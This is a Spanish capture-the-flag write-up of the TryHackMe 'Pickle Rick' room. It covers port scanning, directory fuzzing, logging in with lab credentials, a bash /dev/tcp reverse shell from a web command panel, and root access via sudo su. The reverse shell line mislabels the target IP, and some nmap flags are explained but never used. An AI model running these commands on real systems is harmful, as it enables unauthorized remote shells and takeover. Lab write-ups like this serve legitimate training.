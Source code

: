 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Pickle Rick - TryHackMe Write-up
category: Writeups
tags: ["THM"]
---
```


[Pickle Rick](https://tryhackme.com/r/room/picklerick) es un nivel facil de la plataforma TryHackMe de nivel fácil. En esta máquina se tocan temas de WebHacking.


### Reconocimiento:
Primero hacemos un escaneo de puertos con **nmap**.
```bash
nmap -p- --open --min-rate 5000 -n -Pn -vvv 10.10.147.169 -oN escaneo 
```

si tienen dudas sobre que hace cada parametro aquí se los explico:
- **-p-**:  Indica que escanee todos los puertos , desde el 1 hasta el 65535. Sin este parámetro solo se escanea los 1000 puertos más comunes.
- **--open**: Solo escanear puertos abiertos.
- **-sS**: SYN Scan, también conocido como half-open scan, este no completa la conexión con el destino, esto hace el escaneo un poco más rápido y difícil de detectar.
- **-sC**: Activa la ejecución de scripts de detección predeterminados (Nmap Scripting Engine - NSE). Estos scripts realizan tareas de detecciones adicionales durante el escaneo, como:	- Detección de versiones de servicios.
	- Vulnerabilidades comunes.
	- Información adicional del servicio.
	- Configuraciones de seguridad.

- **-sV**: Encuentra la versión de servicio que corre en cada puerto.
- **--min-rate**: Fija la cantidad mínima de paquetes para enviar por segundo.
- **-n**: No resolución DNS.
- **-Pn**: Null Ping. Se usa por si el servidor esta bloqueando trazas ICMP.
- **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de "v", el máximo es 3.
- **-oN**:  Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output).  Siempre va acompañado del nombre del archivo donde se guardara.

<image src="/../img/picklerick/nmap-scaneo.png" alt="Escaneo de Nmap"></image>

Este escaneo nos muestra que la máquina tiene abiertos los puertos: 80(http) y 22(ssh).

Entramos a la página y hacemos un poco de exploración. 

<image src="/../img/picklerick/sitio.png" alt="Sitio"></image>

La página es muy sencilla por lo que nos brincamos directo a inspeccionar el código fuente, ahí encontramos algo muy interesante ¡un usuario!<br><br>

<image src="/../img/picklerick/user.png" alt="Usuario en Código fuente"></image>

<br>Una vez encontrado el usuario exploramos algunas rutas que siempre son de interes como `robots.txt` y `sitemaps.xml`. Al parecer no existe el archivo sitemaps pero dentro de robots encontramos un mensaje un poco extraño que guardaremos para después.

<image src="/../img/picklerick/robots.png" alt="Mensaje robost.txt"></image><br>

### Fuzzing
Para esta etapa usaremos gobuster, buscaremos subdominios interesantes y archivos con extensiones .php, .html y .txt

```bash
gobuster dir -u http://10.10.147.169 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<br><image src="/../img/picklerick/fuzzing.png" alt="Gobuster fuzzing"></image>

De los resultados más interesantes es el panel de login, en el cual intentamos ingresar utilizando el usuario `R1ckRul3s` y de contaseña `Wubbalubbadubdub`<br>

<br><image src="/../img/picklerick/login.png" alt="Panel de login"></image>

¡¡Funcionó!!

Dentro del panel nos encontramos con un panell de comandos. Le ingresamos el comando `whoami` para probar si funciona.

<image src="/../img/picklerick/command-panel.png" alt="Panel de comandos"></image>

### Exploit

Como se ve en la imagen, el comando funcionó. Ahora nos intentamos enviar una reverse shell para trabajar un poco más comodos desde la terminal.
```bash
bash -c  "sh -i >& /dev/tcp/<IP Victima>/<puerto> 0>&1"
```

No olviden ponerse en escucha para poder recibir la reverse shell:
```bash
sudo nc -lnvp <puerto>
```

<br><image src="/../img/picklerick/reverse-shell.png" alt="Revere Shell"></image>

Una vez recibida la shell exploramos archivos y vemos los primeros archivos interesantes en la ruta de `/var/www/html`.

<image src="/../img/picklerick/primer-ingrediente.png" alt="Primer ingrediente"></image>

El primer archivo interesante es `Sup3rS3cretPickl3Ingred.txt` en el cual esta el primer ingrediente que estamos buscando. El segundo archivo es `clue.txt` en el cual solo nos indican que tenemos que explorar en los demás archivos.

El primer lugar en el que buscamos es en la ruta del usuario rick `/home/rick/` y justo encontramos lo que buscabamos: `second ingridients`. 

<image src="/../img/picklerick/segundo-ingrediente.png" alt="Segundo ingrediente"></image><br>

### Escalada de privilegios

Para el tercer ingrediente buscaremos en la directorio `/root` pero primero necesitaremos escalar privilegios. Para esto ejecutamos el siguiente comando:
```bash
sudo -l
```
Este comando nos sirve para listar los comandos que el usuario puede ejecutar como **sudo**.
Los resultados nos muestan que el usuario `www-data` tiene permisos para ejecutar cualquier comando como sudo.

<image src="/../img/picklerick/sudo-l.png" alt="Sudo -l"></image>

Podemos escalar privilegios simplemente ejecutando el comando `sudo su`, después vamoms a la ruta `/root` en donde se encuentra el tercer ingrediente.


<image src="/../img/picklerick/tercer-ingrediente.png" alt="Tercer ingrediente"></image>


Y con esto logramos todos los objetivos de la máquina.

¡Saludos!
